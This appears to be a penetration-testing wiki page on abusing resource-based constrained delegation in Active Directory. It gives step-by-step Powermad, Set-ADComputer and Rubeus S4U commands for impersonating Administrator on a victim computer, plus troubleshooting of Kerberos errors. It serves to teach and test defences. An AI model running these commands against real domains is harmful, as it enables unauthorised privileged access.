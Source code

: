 # Resource-based Constrained Delegation

## Basics of Resource-based Constrained Delegation

This is similar to the basic [Constrained Delegation](constrained-delegation.md) but **instead** of giving permissions to an **object** to **impersonate any user against a service**. Resource-based Constrain Delegation **sets** in **the object who is able to impersonate any user against it**.

In this case, the constrained object will have an attribute called _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with **write permissions over a machine account** \(_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_\) ****can set the _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ \(In the other forms of Delegation you needed domain admin privs\).

### New Concepts

Back in Constrained Delegation it was told that the _**TrustedToAuthForDelegation**_ flag inside the _userAccountControl_  value of the user is needed to perform a **S4U2Self.** But that's not completely truth.  
The reality is that even without that value, you can perform a **S4U2Self** against any user if you are a **service** \(have a SPN\) but, if you **have** _**TrustedToAuthForDelegation**_  the returned TGS will be **Forwardable** and if you **don't have** that flag the returned TGS **won't** be **Forwardable**.

However, if the **TGS** used in **S4U2Proxy** is **NOT Forwardable** trying to abuse a **basic Constrain Delegation** it **won't work**. But if you are trying to exploit a **Resource-Based constrain delegation, it will work** \(this is not a vulnerability, it's a feature, apparently\).

### Attack structure

> If you have **write equivalent privileges** over a **Computer** account you can obtain **privileged access** in that machine.

Suppose that the attacker has already **write equivalent privileges over the victim computer**.

1. The attacker **compromises** an account that has a **SPN** or **creates one** \(“Service A”\). Note that **any** _Admin User_ without any other special privilege can **create** up ****until 10 **Computer objects \(**_**MachineAccountQuota**_**\)** and set them a **SPN**. So the attacker can just create a Computer object and set a SPN.
2. The attacker configures **resource-based constrained delegation from Service A to the victim host**. 
3. The attacker uses Rubeus to perform a **full S4U attack** \(S4U2Self and S4U2Proxy\) from Service A to Service B for a user **with privileged access to Service B**. 
   1. S4U2Self \(from the SPN compromised/created account\): Ask for a **TGS of Administrator to me** \(Not Forwardable\).
   2. S4U2Proxy: Use the **not Forwardable TGS** of the step before to ask for a **TGS** from **Administrator** to the **victim host**.
   3. Even if you are using a not Forwardable TGS, as you are exploiting Resource-based constrained delegation, it will work.
4. The attacker can **pass-the-ticket** and **impersonate** the user to gain **access to the victim**.

To check the _**MachineAccountQuota**_ of the domain you can use:

```text
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Attack

### Creating a Computer Object

You can create a computer object inside the domain using [powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKECOMPUTER -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/b1.png)

```bash
Get-DomainComputer FAKECOMPUTER #Check if created if you have powerview
```

### Configuring R**esource-based Constrained Delegation**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount FAKECOMPUTER$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it work
```

![](../../.gitbook/assets/b2.png)

### Performing a complete S4U attack

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

This will print the RC4 and AES hashes for that account.  
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

{% hint style="danger" %}
Note that users has an attribute called "**Cannot be delegated**". If a user has this attribute to True, you won't be able to impersonate him . This property can be seen inside bloodhound.
{% endhint %}

![](../../.gitbook/assets/b3.png)

You can generate more tickets just asking once using the `/altservice` param of Rubeus:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:cifs,time,host,http,winrm,rpcss,ldap /domain:domain.local /ptt
```

### Accessing

The last command line will perform the **complete S4U attack and will inject the TGS** from Administrator to the victim host in **memory**.  
In this example it was requested a TGS for the **CIFS** service from Administrator, so you will be able to access **C$**:

```bash
ls \\victim.domain.local\C$
```

![](../../.gitbook/assets/b4.png)

## Kerberos Errors

* **`KDC_ERR_ETYPE_NOTSUPP`**: This means that kerberos is configured to not use DES or RC4 and you are supplying just the RC4 hash. Supply to Rubeus at least the AES256 hash \(or just supply it the rc4, aes128 and aes256 hashes\). Example: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: This means that the time of the current computer is different from the one of the DC and kerberos is not working properly.
* **`preauth_failed`**: This means that the given  username + hashes aren't working to login. You may have forgotten to put the "$" inside the username when generating the hashes \(`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`\)
* **`KDC_ERR_BADOPTION`**: This may mean:
  * The user you are trying to impersonate cannot access the desired service \(because you cannot impersonate it or because it doesn't have enough privileges\)
  * The asked service doesn't exist \(if you ask for a ticket for winrm but winrm isn't running\)
  * The fakecomputer created has lost it's privileges over the vulnerable server and you need to given them back.

## References

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution\#modifying-target-computers-ad-object" %}

{% embed url="https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/" %}





